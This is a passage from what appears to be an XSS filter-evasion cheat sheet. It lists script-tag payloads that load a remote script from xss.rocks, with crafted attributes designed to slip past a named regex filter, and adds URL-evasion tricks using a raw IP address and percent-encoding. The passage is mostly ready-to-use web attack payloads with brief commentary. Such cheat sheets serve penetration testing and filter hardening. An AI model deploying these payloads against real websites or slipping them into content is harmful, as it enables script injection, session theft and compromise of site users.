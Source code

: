 ```js
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

For performing XSS on sites that allow <SCRIPT> but don’t allow \<script src... by way of a regex filter /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i (this is an important one, because I’ve seen this regex in the wild):

```js
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i:

```js
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS to evade the same filter, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i. I know I said I wasn’t goint to discuss mitigation techniques but the only thing I’ve seen work for this XSS example if you still want to allow <SCRIPT> tags but not remote script is a state machine (and of course there are other ways to get around this if they allow <SCRIPT> tags):

```js
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i using grave accents (again, doesn’t work in Firefox):

```js
<SCRIPT a=> SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Here’s an XSS example that bets on the fact that the regex won’t catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```js
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```js
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

URL String Evasion
Assuming http://www.google.com/ is programmatically disallowed:

IP Versus Hostname

```js
<A HREF="http://66.102.7.147/">XSS</A>
```

URL Encoding

```js
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

